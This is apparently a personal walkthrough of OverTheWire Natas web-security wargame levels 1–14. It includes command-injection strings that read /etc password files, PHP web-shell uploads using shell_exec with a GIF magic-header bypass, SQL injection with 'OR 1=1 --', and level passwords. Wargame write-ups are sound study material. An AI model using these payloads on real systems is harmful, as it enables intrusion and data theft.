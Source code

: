 # Level 1
Solution:
after you open link, open inspector check html code there you can find password

# Level 2
So solution in this case is a bit hard to explain but basicly 
You should find an image tag like `<img src="file/pixel.png>` now you see that comes from database with this link `file/pixel.png` 
it means that you should you it as vulnerabilities to get key this is how:
`http://natas2.natas.labs.overthewire.org/files/`
there you find password for the next level

# Level 3
So get key from this problem we sould search for (google robots)[https://developers.google.com/search/docs/crawling-indexing/robots/create-robots-txt].
Bassicaly its `robots.txt` file that locks or allows access for all or a specific path to your domain
`http://natas3.natas.labs.overthewire.org/robots.txt` ---> here you get a hidden path `/s3cr3t/` and go to it

`http://natas3.natas.labs.overthewire.org/s3cr3t`--> key should be here

# Level 4
```
curl \                                                                                                                                                                               
  -H "Authorization: Basic $(echo -n 'natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ' | base64)" \
  -H "Referer: http://natas5.natas.labs.overthewire.org/" 
  http://natas4.natas.labs.overthewire.org/     

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK #your pass #key to next level
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
# Level 5
```Visiting the website returns the following text: “Access disallowed. You are not logged in”. The website should determine that we are logged in through a cookie. So, by opening the developer tools and going to the ‘Storage’ tab, we can see the ‘Cookies’ section. Here we find a cookie named ’loggedin’ with the value=0. Let’s try changing the value to 1 (by double-clicking on it) and refreshing the page.```

# Level 6 
if you take a look into source code that handles `input` you find something like this 
`include "includes/secret.inc"include "includes/secret.inc"` it means that it inludes another php file to get key from it,
and now we should do it manually `http://natas6.natas.labs.overthewire.org/index-source.html/include/secret.inc` its just a white/black screen 
check inspector and you find key

# Level 7 

Level 7 is bassically same as Level 6
  * take a look into source code
  * you will find something like this ` hint: password for webuser natas8 is in /etc/natas_webpass/natas8`
  * and go this link via page `http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8`

# Level 8 

Level 8 is same as level 6 but pin-code placed in the script you should decode it
```
 echo 3d3d516343746d4d6d6c315669563362 | xxd -r -p

==QcCtmMml1ViV3b #decode hash to bin

echo "==QcCtmMml1ViV3b" | rev #reverse

b3ViV1lmMmtCcQ

echo b3ViV1lmMmtCcQ== | base64 -d

oubWYf2kBq  #key   
```
# Level 9 

so solve this case we should use `comanline injection`
as you could see in source code that input value directly goes through db without any hiccups
`; cat /etc/natas_webpass/natas10 #`--> Key to next level

# Level 10 
Solution in this problem is use another method of injection
`.* cat /etc/natas_webpass/natas11`
 # Level 11
  ----
 # Level 12
 
 In this level you should create a php file on your pc and write own script to get pass
 `<?php echo shell_exec("ls");?>` but dont send it yet you need change in inspector type from jpg to php
 and than upload file it should execute. 
 So ones it worked you should change you script to `<?php echo shell_exec("cat /etc/natas_webpass/natas13");?>` 

 # Level13
 To solve this level we should create the same script in php.

But if you look into source code, you will see some thing like this
 
`else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) echo "File is not an image";`

so this line checks our image type while uploading, and if we just upload our php file we can get error

exif_imagetype() - This PHP function reads the first few bytes of a file, sometimes known as “magic headers” to determine the file type. It won’t be fooled by just changing the file extension. If our file does not begin with the header bytes that indicate it actually is an image file, it will be rejected.

no worries we can buypass it using [magic headers](https://en.wikipedia.org/wiki/List_of_file_signatures?ref=learnhacking.io)

lets pretend to be GIF
```GIF87a<?php echo shell_exec("ls");?>```
And now repeat all that stuff we done in level 12
and you will get KEY

# Level 14
this case is different from others
to solve this we should look into source code

`if(array_key_exists("username", $_REQUEST)) {` 
in this line we can see that form directly works with it means it will do any comand that we can give him,
this method called `sql injection`

How it works (basic idea):
1.A website asks for user input, like a username and password.
2.This input is used directly in an SQL query, like this:
`SELECT * FROM users WHERE username = 'input' AND password = 'input';`
3.If the input is not properly sanitized, an attacker can inject SQL code:
`username = 'admin' -- 
password = anything
`
4.The resulting query becomes:
`SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'anything';`
The -- makes the rest of the query a comment.
5.Now the attacker logs in as admin without knowing the password.

Now you understand how sql injection works:
So to get into the Level14 we should do the same thing
`http://natas14.natas.labs.overthewire.org/?debug=1&&username=admin"OR 1=1 --"&&password="admin`
?--->means that we using Get request to get output 
`OR 1=1 --`-->one the basic injection that always returns true(thats how we can bypass password)
